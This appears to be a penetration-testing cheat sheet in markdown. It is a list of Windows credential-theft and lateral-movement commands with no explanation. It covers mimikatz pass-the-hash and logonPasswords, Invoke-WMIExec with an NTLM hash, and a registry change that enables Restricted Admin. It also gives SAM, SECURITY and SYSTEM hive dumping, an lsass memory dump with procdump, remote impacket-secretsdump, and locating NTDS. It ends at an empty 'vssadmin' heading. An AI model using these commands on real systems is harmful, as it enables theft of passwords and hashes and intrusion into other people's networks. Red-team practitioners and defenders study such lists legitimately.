 `sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe`
`Enter-PSSession -Computer <Target>`
`New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force`

## Invoke the hash 

`Invoke-WMIExec -Target blah -Username blah -Hash NTLMHASH -Command blah`

## Password dumping

### From Live Kali on a workstation
`samdump2 SYSTEM SAM > hashes.txt`

### Local

`C:\> reg.exe save hklm\sam c:\temp\sam.save`

`C:\> reg.exe save hklm\security c:\temp\security.save`

`C:\> reg.exe save hklm\system c:\temp\system.save`

`secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

`pwdump system sam`

### In Memory
`C:\> procdump.exe -accepteula -ma lsass.exe c:\lsass.dmp 2>&1`

`C:\> mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit`

`C:\>mini.exe`

https://github.com/b4rtik/ATPMiniDump

### From box

`mimikatz # privilege::debug`
`mimikatz # sekurlsa::logonPasswords full`

### Remote

`impacket-secretsdump Administrator@ip`
`impacket-secretsdump Administrator@ip -hashes ntlm:hash`

### Domain 

To find where NTDS is run the below:

`reg.exe query hklm\system\currentcontrolset\services\ntds\parameters`

### vssadmin
